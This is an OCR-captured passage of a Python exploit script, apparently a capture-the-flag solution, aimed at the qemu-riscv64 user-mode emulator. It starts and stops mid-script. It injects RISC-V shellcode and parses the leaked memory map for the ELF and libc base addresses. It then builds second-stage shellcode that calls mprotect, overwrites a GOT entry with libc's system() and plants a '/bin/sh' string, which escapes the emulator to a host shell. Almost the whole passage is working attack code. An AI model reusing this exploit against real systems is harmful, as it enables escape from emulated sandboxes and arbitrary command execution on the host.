 ```python
            "mv a5, a6\\n"
            "ecall\\n"
            "ret\\n"
    );
"""

sc1 = gen_shellcode(sc1_src)
# sc = open("./sc.bin", "rb").read()

sla(io, "wrong", sc1)

res = rr(io, 2)
lines = res.split(b"\n")

elf_base = 0
libc_base = 0

for l in lines:
    if b'qemu-riscv64' in l and elf_base == 0:
        elf_base = int(l[:l.find(b'-')], 16)
        lg("elf_base", elf_base)
    if b'libc-' in l and libc_base == 0:
        libc_base = int(l[:l.find(b'-')], 16)
        lg("libc_base", libc_base)

lg("elf_base", elf_base)
# elf = ELF("./qemu-riscv64")
# elf.address = elf_base
got_mprotect = elf_base + 0x6a3200
libc = ELF("/usr/lib/x86_64-linux-gnu/libc-2.31.so")
libc.address = libc_base
system_addr =  libc.symbols['system']

sc2_src = """#include <linux/unistd.h>
    #include <sys/types.h>
    #include <sys/stat.h>
    #include <fcntl.h>
    #include <sys/mman.h>
    #include <sys/uio.h>
    #include <stdio.h>
    #include <stdlib.h>
    #include <stdint.h>

    static char flag_path[] = "./test";

    static uint64_t *ro_base = (uint64_t *) %#x;
    static uint64_t *got_ptr = (uint64_t *) %#x;
    static uint64_t system_addr = %#x;
    static uint64_t binsh_str = 0x68732f6e69622f;

    int syscall(uint64_t nr, ...);

    int _start(){
        char buf[0x1000];
        syscall(__NR_mprotect, ro_base, 0x3c000, 7);
        
        got_ptr[0] = system_addr;
        ro_base[0] = binsh_str;
        syscall(__NR_mprotect, ro_base, 0x3c000, 7);
        return 0;
    }

    asm(
```